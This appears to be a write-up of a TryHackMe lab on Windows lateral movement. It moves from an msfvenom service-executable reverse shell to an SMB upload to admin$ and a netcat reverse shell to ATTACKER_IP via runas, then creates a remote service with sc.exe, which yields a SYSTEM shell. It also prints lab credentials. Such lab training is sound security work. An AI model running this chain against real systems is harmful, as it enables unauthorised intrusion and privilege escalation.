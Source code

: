 # Spawning Processes Remotely Walkthrough

Connect to THMJMP2 using credentials from http://distributor.za.tryhackme.com/creds  

<pre>ssh za\\grace.brooks@thmjmp2.za.tryhackme.com</pre>

THM has provided credentials with administrative access:  
- ZA.TRYHACKME.COM\t1_leonard.summers  
- EZpass4ever  

If we try to run a reverse shell using `sc.exe` command and `net user`, we notice that the reverse shell disconnects after execution.  

Service executables are different to .exe files, and therefore non-service executables will end up being killed by the service manager almost immediately.  

msfvenom supports the `exe-service` format, which will encapsulate any payload we like inside a fully functional service executable, preventing it from being killed.  

- Create payload using msfvenom (Attack Box)
<pre>msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKERIP LPORT=4444 -o myservice.exe</pre>

- Upload payload to THMIIS using t1_leonard.summers (Attack Box)
<pre>smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/'</pre>

- Setup listener on attacker machine to receive reverse shell once `myservice.exe` has been executed

<pre>msfconsole  
use exploit/multi/handler  
exploit(multi/handler) > set LHOST lateralmovement 
exploit(multi/handler) > set LPORT 4444
exploit(multi/handler) > set payload windows/shell/reverse_tcp
exploit(multi/handler) > exploit  

Started reverse TCP handler on 10.50.119.158:4444</pre>

- Spawn a reverse shell with t1_leonard.summers access (THMJMP2)
<pre>runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "C:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"</pre>

- `runas` with `/netonly` it will not check if the provided credentials are valid
- Receive reverse shell from `runas` command using `nc` 
<pre>nc -lvp 4443</pre>  

- Create a new service by using `sc.exe` (THMJMP2 command prompt as t1_leonard.summers from nc reverse shell)
<pre>sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto  
sc.exe \\thmiis.za.tryhackme.com start THMservice-3249</pre>

- Receive reverse shell on msfconsole session
<pre>msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.50.119.158:4444 
[*] Sending stage (240 bytes) to 10.200.122.201
[*] Command shell session 1 opened (10.50.119.158:4444 -> 10.200.122.201:61780) at 2023-11-21 12:43:46 -0500
-

Shell Banner:
Microsoft Windows [Version 10.0.17763.1098]
-----
          

C:\Windows\system32>whoami
whoami
nt authority\system</pre>

![Alt text](<../../Images/Spawn Process Remotely Diagram.jpg>)